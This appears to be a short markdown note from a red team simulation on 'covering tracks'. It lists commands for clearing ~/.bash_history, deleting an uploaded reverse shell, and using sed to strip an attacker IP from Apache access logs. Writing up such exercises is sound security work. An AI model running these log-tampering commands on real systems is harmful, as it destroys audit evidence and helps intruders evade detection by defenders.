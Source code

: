 ### 📄 `cleanup.md`

```markdown
# Covering Tracks (Red Team Simulation)

- Cleared `.bash_history`:
```bash
cat /dev/null > ~/.bash_history

Deleted uploaded reverse shell after session closed

Modified access logs to remove attacker IP:
sed -i '/attacker-ip/d' /var/log/apache2/access.log
